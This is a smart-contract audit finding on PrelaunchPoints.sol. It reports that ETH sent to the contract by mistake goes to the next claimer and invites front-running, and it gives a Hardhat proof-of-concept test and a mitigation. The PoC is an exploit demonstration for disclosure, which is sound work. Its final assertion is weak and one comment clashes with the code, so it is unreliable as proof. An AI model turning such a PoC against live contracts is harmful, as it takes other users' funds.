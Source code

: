 ## M1 - User can get unexpected earnings at expenses of another user that sent by mistake ETH to the contract

## Impact
PrelaunchPoints.sol line 256 state: `ETH sent to this contract directly will be locked forever.` but that is not true:

After `convertAllETH` phase, when a user `claim` will get unexpected earnings at expenses of another user that sent by mistake ETH to the contract (`receive()`) and also this problem  creates a front running competence to monitor mempool and claim just after the transaction that sends ETH to the contract.

## Proof of Concept

POC showing the unexpected gain if user send 30 ETH (number really big to make clear the example)

Add `NotExpectedGains.test.ts` to $project/test/ and  run `npx hardhat test`

```javascript
import { expect } from "chai"
import hre, { ethers } from "hardhat"
import {
  time,
  impersonateAccount,
  setBalance,
} from "@nomicfoundation/hardhat-toolbox/network-helpers"
import fetch from "node-fetch"
import "dotenv/config"
import {
  IERC20,
  MockLpETH,
  MockLpETHVault,
  PrelaunchPoints,
} from "../typechain"
import { parseEther } from "ethers"

const ZEROX_API_KEY = process.env.ZEROX_API_KEY

const tokens = [
  {
    name: "ezETH",
    address: "0xbf5495Efe5DB9ce00f80364C8B423567e58d2110",
    whale: "0x267ed5f71EE47D3E45Bb1569Aa37889a2d10f91e",
  }
]

describe("Smart Contract Audit", function () {
  const ETH = "0xeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee"
  const exchangeProxy = "0xdef1c0ded9bec7f1a1670819833240f027b25eff"

  const sellAmount = ethers.parseEther("1")
  const referral = ethers.encodeBytes32String("")

  // Contracts
  let lockToken: IERC20
  let prelaunchPoints: PrelaunchPoints
  let lpETH: MockLpETH
  let lpETHVault: MockLpETHVault

  before(async () => {
    const LpETH = await hre.ethers.getContractFactory("MockLpETH")
    lpETH = (await LpETH.deploy()) as unknown as MockLpETH

    const LpETHVault = await hre.ethers.getContractFactory("MockLpETHVault")
    lpETHVault = (await LpETHVault.deploy()) as unknown as MockLpETHVault
  })

  beforeEach(async () => {
    const PrelaunchPoints = await hre.ethers.getContractFactory(
      "PrelaunchPoints"
    )
    prelaunchPoints = (await PrelaunchPoints.deploy(
      exchangeProxy,
      "0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2",
      tokens.map((token) => token.address)
    )) as unknown as PrelaunchPoints
  })

  const token = tokens[0];

  it(`User will get unexpected gains at expenses of a user that sent ETH by mistake`, async function () {
    lockToken = (await ethers.getContractAt(
      "IERC20",
      token.address
    )) as unknown as IERC20

    const depositorAddress = token.whale
    await impersonateAccount(depositorAddress)
    const depositor = await ethers.getSigner(depositorAddress)


    const tokenBalanceBefore = await lockToken.balanceOf(depositor)
    console.log(`tokenBalanceBefore ${tokenBalanceBefore}`)

    await lockToken.connect(depositor).approve(prelaunchPoints, sellAmount)
    console.log(`Token address  ${token.address}`)
    await prelaunchPoints
      .connect(depositor)
      .lock(token.address, sellAmount, referral)

    const tokenBalanceAfter = await lockToken.balanceOf(depositor)
    const claimToken = token.name == "WETH" ? ETH : token.address
    const lockedBalance = await prelaunchPoints.balances(
      depositor.address,
      claimToken
    )
    expect(tokenBalanceAfter).to.be.eq(tokenBalanceBefore - sellAmount)
    expect(lockedBalance).to.be.eq(sellAmount)

    // Activate claiming
    await prelaunchPoints.setLoopAddresses(lpETH, lpETHVault)
    const newTime =
      (await prelaunchPoints.loopActivation()) +
      (await prelaunchPoints.TIMELOCK()) +
      1n
    await time.increaseTo(newTime)
    await prelaunchPoints.convertAllETH()

    // Get Quote from 0x API
    const headers = { "0x-api-key": ZEROX_API_KEY }
    const OxUrl =  `https://api.0x.org/swap/v1/quote?buyToken=${ETH}&sellAmount=${sellAmount}&sellToken=${token.address}&includedSources=Uniswap_V3`;
    console.log(`OxUrl   ${OxUrl}`)

    const quoteResponse = await fetch(
      OxUrl,
      { headers }
    )

    // Check for error from 0x API
    if (quoteResponse.status !== 200) {
      const body = await quoteResponse.text()
      throw new Error(body)
    }
    const quote = await quoteResponse.json()

    // console.log(quote)

    const exchange = quote.orders[0] ? quote.orders[0].source : ""
    var exchangeCode = exchange == "Uniswap_V3" ? 0 : 1
    exchangeCode = 1
    //console.log(`DATA: ${quote.data}`);

    //@audit: A User send by error 100 ETH via receive() because s not validated.
    // Number is really big just make clear the example.
    const ethSentByMistake =  parseEther("30");
    await setBalance(prelaunchPoints.target.toString(), ethSentByMistake)

    // Claim
    await prelaunchPoints
      .connect(depositor)
      .claim(claimToken, 
        100
      , exchangeCode, quote.data)

    expect(await prelaunchPoints.balances(depositor, token.address)).to.be.eq(
      0
    )

    const balanceLpETHAfter = await lpETH.balanceOf(depositor)
    console.log("balanceLpETHAfter " + balanceLpETHAfter);
    //@audit: Unpected balance that is much bigger than ((sellAmount * 95n) / 100n)
    expect(balanceLpETHAfter + ethSentByMistake ).to.be.gt(((sellAmount * 95n) / 100n) )
  })
  
})

```

## Tools Used
Manual review and hardhat tests.

## Recommended Mitigation Steps
There are many possibilities:
1) Add validations to receive()
2) Don't rely on address(this).balance directly but instead use a diff before and after the swap.
```javascript
uint256 balanceBeforeSwap = address(this).balance;
_fillQuote(IERC20(_token), userClaim, _data);
claimedAmount = balanceBeforeSwap - address(this).balance;
lpETH.deposit{value: claimedAmount}(_receiver);
```